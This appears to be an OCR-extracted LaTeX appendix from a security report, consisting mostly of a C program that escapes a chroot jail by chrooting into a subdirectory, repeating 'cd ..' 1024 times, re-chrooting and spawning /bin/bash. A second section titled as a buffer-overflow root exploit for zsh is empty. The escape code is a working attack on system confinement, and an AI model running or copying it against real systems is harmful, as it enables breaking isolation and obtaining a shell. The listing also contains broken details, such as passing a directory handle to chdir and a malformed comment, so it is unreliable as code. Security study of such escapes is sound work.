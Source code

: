 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\newpage
\begin{appendices}
\section{\texttt{cd ..} out of \texttt{chroot} jail\label{app:chroot:cd}}
\begin{lstlisting}
#include <stdio.h>
#include <sys/types.h>
#include <dirent.h>
#include <errno.h>
#include <stdlib.h>

void print_current();

int main(int argc, char** argv) {
  int i;
  DIR *dir;
  print_current();
  puts("Chroot to /tmp\n");

  // Create jail
  if(chroot("/tmp") != 0) {
    printf("chroot to /tmp failure \n");
    exit(EXIT_FAILURE);
  }

  // Create dir
  dir = opendir("bin");


  if(chroot("/bin") != 0) {
    printf("chroot to /bin failure \n");
    exit(EXIT_FAILURE);
  }

  print_current();

  puts("Chdir to the hander\n");
  if(chdir(dir) != 0)
    printf("change directory to handler failure \n");

  print_current();

  for(i = 0; i < 1024; i++) {
    if(chdir("..") != 0) {
      printf("%d Unable to cd ..\n", i);
    }
  }

  print_current();

  / Chroot to  .
  if(chroot(".") != 0) {
    printf("chroot failure \n");
    exit(EXIT_FAILURE);
  }

  system("/bin/bash");

  return 0;
}

void print_current() {
  char buffer[100];

  getcwd (buffer, 50);
  printf("Current Directory: %s\n", buffer);
  return;
}
\end{lstlisting}


\section{Buffer overflow exploits}
\lstset{
	captionpos=b,
	frame=single,
	language=C,
	breaklines=true,
	caption=Exploit for getting root with zsh,
	label=bof:exploit1
}
\begin{lstlisting}
/* exploit.c  */


\end{lstlisting}
\end{appendices}
\end{document}
